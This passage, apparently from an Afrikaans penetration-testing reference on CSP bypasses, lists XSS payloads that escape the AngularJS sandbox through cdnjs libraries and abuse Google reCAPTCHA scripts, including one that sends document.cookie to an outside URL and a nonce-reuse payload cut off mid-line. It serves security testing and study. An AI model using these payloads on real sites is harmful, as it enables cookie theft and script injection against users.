 > [!NOTE]
> Die pos wys dat jy **alle** **biblioteke** van `cdn.cloudflare.com` (of enige ander toegelate JS biblioteek repo) kan **laai**, alle bygevoegde funksies van elke biblioteek kan uitvoer, en **watter funksies van watter biblioteke die `window` objek teruggee** kan nagaan.
```markup
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.8/angular.js" /></script>
<div ng-app ng-csp>
{{$on.curry.call().alert(1)}}
{{[].empty.call().alert([].empty.call().document.domain)}}
{{ x = $on.curry.call().eval("fetch('http://localhost/index.php').then(d => {})") }}
</div>


<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script>
<div ng-app ng-csp>
{{$on.curry.call().alert('xss')}}
</div>


<script src="https://cdnjs.cloudflare.com/ajax/libs/mootools/1.6.0/mootools-core.min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script>
<div ng-app ng-csp>
{{[].erase.call().alert('xss')}}
</div>
```
Angular XSS vanaf 'n klasnaam:
```html
<div ng-app>
<strong class="ng-init:constructor.constructor('alert(1)')()">aaa</strong>
</div>
```
#### Misbruik van google recaptcha JS kode

Volgens [**hierdie CTF skrywe**](https://blog-huli-tw.translate.goog/2023/07/28/google-zer0pts-imaginary-ctf-2023-writeup/?_x_tr_sl=es&_x_tr_tl=en&_x_tr_hl=es&_x_tr_pto=wapp#noteninja-3-solves) kan jy [https://www.google.com/recaptcha/](https://www.google.com/recaptcha/) binne 'n CSP misbruik om arbitrêre JS kode uit te voer en die CSP te omseil:
```html
<div
ng-controller="CarouselController as c"
ng-init="c.init()"
>
&#91[c.element.ownerDocument.defaultView.parent.location="http://google.com?"+c.element.ownerDocument.cookie]]
<div carousel><div slides></div></div>

<script src="https://www.google.com/recaptcha/about/js/main.min.js"></script>
```
Meer [**payloads van hierdie skrywe**](https://joaxcar.com/blog/2024/02/19/csp-bypass-on-portswigger-net-using-google-script-resources/):
```html
<script src="https://www.google.com/recaptcha/about/js/main.min.js"></script>

<!-- Trigger alert -->
<img src="x" ng-on-error="$event.target.ownerDocument.defaultView.alert(1)" />

<!-- Reuse nonce -->
<img
src="x"
ng-on-error='
doc=$event.target.ownerDocument;
a=doc.defaultView.top.document.querySelector("[nonce]");
b=doc.createElement("script");
```
